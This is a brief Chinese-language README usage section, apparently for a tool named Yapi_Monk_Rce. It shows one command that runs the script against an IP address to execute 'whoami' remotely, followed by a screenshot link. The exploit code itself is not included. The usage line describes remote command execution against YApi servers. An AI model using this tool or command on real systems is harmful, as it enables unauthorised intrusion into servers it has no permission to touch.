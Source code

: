 ## 用法
python Yapi_Monk_Rce.py 'http://192.168.30.1' 'whoami'


![截图](https://github.com/jammny/Yapi_Monk_Rce/blob/main/r.jpg)
